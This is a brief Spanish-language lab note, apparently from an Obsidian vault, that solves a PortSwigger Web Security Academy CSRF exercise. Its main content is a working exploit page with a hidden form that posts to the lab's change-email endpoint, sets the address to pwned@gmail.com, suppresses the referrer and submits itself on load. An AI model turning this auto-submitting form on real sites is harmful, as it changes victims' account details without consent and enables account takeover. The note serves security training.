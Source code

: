 ## Objetivo:

![[Pasted image 20240520204403.png]]

## Solucion:

![[Pasted image 20240520204430.png]]

```
<!DOCTYPE html>

<html lang="en">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>Document</title>

<meta name="referrer" content="never" >

</head>

<body>

<form action="https://0acb006e04a8dad4804d218d007f004d.web-security-academy.net/my-account/change-email" method="post">

<input type="hidden" name="email" value="pwned@gmail.com" />

</form>

<script>

document.forms[0].submit()

</script>

</body>

</html>
```
